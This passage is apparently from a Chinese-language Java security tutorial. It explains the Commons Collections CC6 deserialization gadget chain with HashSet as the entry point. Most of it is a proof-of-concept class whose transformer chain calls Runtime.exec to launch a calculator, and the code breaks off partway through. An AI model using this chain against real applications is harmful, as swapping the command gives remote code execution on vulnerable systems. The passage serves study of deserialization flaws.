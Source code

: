 ```java
```

所以以`HashSet`作为 Kick-off，构造完整链的方式相比直接用`HashMap`，没有发生多大的变化，无非再多套一层`HashSet`，那么据此直接构造如下 POC 了。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

/* Gadget Chain:
HashSet.readObject()
    HashMap.put()
    HashMap.hash()
        TiedMapEntry.hashCode()
        TiedMapEntry.getValue()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
*/

public class CC6WithHashSet {
    public static void main(String[] args) throws Exception {
        Transformer[] evilTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"open -a Calculator"})
        };

        // 创建一个空ChainedTransformer
        Transformer emptyTransformers = new ChainedTransformer(new Transformer[]{});

        // 将如上创建的空ChainedTransformer传入新创建的lazyMap中
        Map lazyMap = LazyMap.decorate(new HashMap(), emptyTransformers);

        // 创建TiedMapEntry对象，将lazyMap传入其中
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "k");

        Map hashMap = new HashMap();
        hashMap.put(entry, "v");

```